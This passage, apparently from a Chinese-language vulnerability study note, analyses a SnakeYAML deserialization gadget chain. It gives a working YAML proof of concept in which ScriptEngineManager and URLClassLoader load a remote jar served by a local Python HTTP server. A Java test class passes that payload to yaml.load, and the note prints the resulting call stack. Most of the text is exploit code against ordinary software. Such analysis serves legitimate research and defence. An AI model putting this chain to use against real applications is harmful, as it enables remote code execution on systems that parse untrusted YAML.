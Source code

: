 ```plain
python -m http.server 8080
```

POC：

```plain
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://127.0.0.1:8080/yaml-payload.jar"]
  ]]
]
```

测试类：

```plain
package SnakeYaml;

import org.yaml.snakeyaml.Yaml;

public class PocTest2 {
    public static void main(String[] args) {
        String poc = "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://127.0.0.1:8080/yaml-payload.jar\"]]]]\n";
        Yaml yaml = new Yaml();
        yaml.load(poc);
    }
}
```

函数调用栈：

```plain
nextService:381, ServiceLoader$LazyIterator (java.util)
next:404, ServiceLoader$LazyIterator (java.util)
next:480, ServiceLoader$1 (java.util)
initEngines:122, ScriptEngineManager (javax.script)
init:84, ScriptEngineManager (javax.script)
<init>:75, ScriptEngineManager (javax.script)
newInstance0:-1, NativeConstructorAccessorImpl (sun.reflect)
newInstance:62, NativeConstructorAccessorImpl (sun.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (sun.reflect)
newInstance:422, Constructor (java.lang.reflect)
construct:570, Constructor$ConstructSequence (org.yaml.snakeyaml.constructor)
construct:331, Constructor$ConstructYamlObject (org.yaml.snakeyaml.constructor)
constructObjectNoCheck:229, BaseConstructor (org.yaml.snakeyaml.constructor)
constructObject:219, BaseConstructor (org.yaml.snakeyaml.constructor)
constructDocument:173, BaseConstructor (org.yaml.snakeyaml.constructor)
getSingleData:157, BaseConstructor (org.yaml.snakeyaml.constructor)
loadFromReader:490, Yaml (org.yaml.snakeyaml)
load:416, Yaml (org.yaml.snakeyaml)
main:10, PocTest2 (SnakeYaml)
```

前面的大致步骤还是和 JdbcRowSetImpl 链的过程一致，这里的关键在于 Constructor 不一致，这里是 ConstructSequence，在对 ScriptEngineManager 实例化的过程中就会触发命令执行  